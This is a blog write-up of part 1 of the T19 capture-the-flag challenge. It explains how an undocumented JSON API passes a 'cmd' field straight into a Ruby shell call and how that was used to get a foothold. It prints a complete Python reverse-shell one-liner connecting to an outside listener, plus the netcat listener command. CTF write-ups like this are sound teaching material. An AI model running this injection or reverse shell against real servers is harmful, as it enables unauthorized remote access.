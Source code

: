 ```yaml
---
layout: post
title: T19 Challenge (Part 1)
---
```


The T19 Challenge was hosted by [Twistlock Labs](https://www.twistlock.com/labs/) last week on [http://t19challenge.com/](http://t19challenge.com/).

> Welcome. 
>
> Our company developed a unique Linux binary called "cat". We recently discovered that our competitors from the Antivirus company VirusExpress are blocking our cat binary. It is now signed as a **virus**. Word is that you are a badass security researcher. We need you to **infilitrate their server** and **empty their database**.

There are 3 parts of varying difficulty to this challenge. The vulnerabilities may look simple, but are really challenging to exploit.

In summary, we are provided with a virus scanning [site](http://virus.express/), which we must exploit a **command injection vulnerability** to gain access to the server. After which, we could escalate privileges by exploiting a **buffer overflow vulnerability**, in a setuid binary that acts as a client to the virus database. Finally, we gain root access by exploiting a **buffer overflow vulnerability** in the database service ran by the root user.

This post is about the getting the first flag of the challenge, by exploiting a command injection vulnerability in the virus uploading API. 

If you would like to skip this part, here are the links to [part 2][part2] and [part 3][part3].

### Recon
The target, [virus.express](http://virus.express/), has a simple interface, allowing a user to upload a binary and check whether it is a virus.

![website][website-screenshot]

![danger][danger-screenshot]

Viewing the source, I found an interesting `TODO` left by the devs.

```html
2. Add documentation on the experimental JSON API on /api
```

Opening [virus.express/api](http://virus.express/api) in the browser gives the following response.

```json
{"success":false,"response":"Please deliver something next time."}
```

### Exploring the API
To ease poking around with the API, I intercepted the request with Burp. Through trial and error, by changing from `GET` to `POST` request, adding a `Content-Type: application/json` header, and sending a dummy `{"hello": "world"}` as data, the following error page is returned.

![error][error-screenshot]

It looks like the program errored out at the line

`response = {:success=>true, :response=>(is_virus? body[:file][:hash], body[:file][:name], body[:cmd])}`

We are expected a JSON object with fields `cmd` and `file`, where `file` is another object consisting of fields `hash` and `name`. So, we can modify our data to be 

```json
{
    "cmd": "ls", 
    "file": {
        "hash": "hello", 
        "name": "hello"
    }
}
```

![hash-error][hash-error-screenshot]

Another error. But this time, it looks like really good information. In particular, we can see the following line

`` `#{cmd} "#{encoded}" "#{filename}"` ``

In ruby, putting backticks around a string is to execute it as a shell command. This means we got arbitrary code execution!

But before that, the error needs to resolved so that we can execute what we want. It turns out that the `hash` is being passed into `Z85rb.encode()`, which expects a string with length of a multiple of 4. A simple fix is to set both `hash` and `name` as empty strings, so that they do not interfere with our `cmd`.

### Getting a reverse shell
Interacting with the server by constantly changing the `cmd` field is not a good experience. A more convenient method is to spawn a reverse shell.

Unfortunately, as with usual production machines, this one does not have `netcat` installed, which is used most often when trying to create a reverse shell. Nevertheless, we can go through this [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and try the commands one by one.

In the end, the `python` one worked out for me.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I just need to run `nc -lvp 8000` on a VPS, send to /api `cmd` set as the command above, and I get a shell to the server as user `rubyist`.

<script id="asciicast-lE2IirQBegq5Wb3ZgbtlU3zv3" src="https://asciinema.org/a/lE2IirQBegq5Wb3ZgbtlU3zv3.js" async></script>

---

In [part 2][part2], we exploit a buffer overflow in a setuid binary to escalate privileges as `ben`.

Actually, I'm not sure if it is even right to say that there is a command injection vulnerability, since we don't need to tweak the input to execute our command.

If there is anything unclear, feel free to leave a comment below.

[part2]:/t19-challenge-2.html
[part3]:/t19-challenge-3.html
[website-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/website.png
[danger-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/danger.png
[error-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/error.png
[hash-error-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/hash-error.png